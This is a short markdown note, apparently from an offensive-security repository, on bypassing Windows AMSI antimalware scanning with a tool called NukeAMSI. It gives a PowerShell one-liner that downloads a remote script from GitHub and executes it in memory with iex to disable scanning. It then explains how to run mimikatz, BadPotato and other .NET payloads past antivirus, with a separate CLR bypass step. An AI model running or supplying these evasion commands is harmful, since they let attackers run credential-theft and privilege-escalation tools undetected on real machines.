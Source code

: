 # Defense Evasion: AMSI Bypass

## How it work

This technique based on some methods to dealing with the AMSI (Antimalware Scan Interface) like exploiting the amsi.dll and/or relevent service.

Hence within succession we can bypass antimalware scan from modern AV, not only Windows but also others as most is using the same AMSI service.

## Methods

### NukeAMSI

#### What is this

A new attack that targeting to a bug in `amsi.dll` that allow user to write on some code address

#### Running

You can download script from [NukeAMSI.ps1](https://github.com/anonymous300502/Nuke-AMSI/blob/main/NukeAMSI.ps1) then run in powershell, or invoke by running:
```powershell
iex (iwr "https://raw.githubusercontent.com/anonymous300502/Nuke-AMSI/refs/heads/main/NukeAMSI.ps1" -UseBasicParsing).Content
```

Then we can running powershell script without being scanned by AMSI

#### Usage

- Powershell script (.ps1): We can directly run it
- Native PE Bynary: We can embed it into a powershell script like how they embed `mimikatz.exe` into [Invoke-Mimikatz.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)
- .NET PE Binary: 
    - I have tested this with [Invoke-BadPotato.ps1](https://github.com/Zanitas404/Invoke-BadPotato/blob/main/Invoke-BadPotato.ps1) and other .NET binary, but I always get this error
      ![image](https://github.com/user-attachments/assets/8db04ce3-3282-4db9-b203-b95f2d52901e)

    - Thanks to [Vixx's repo](https://github.com/V-i-x-x/AMSI-BYPASS/tree/main), I have done some research and successful deal with this problem
    - Now we should run this [Invoke-ClrBypass.ps1]() before running our .NET payload, for more detail please refer [this](Payloads/Invoke-ClrBypass/README.md)
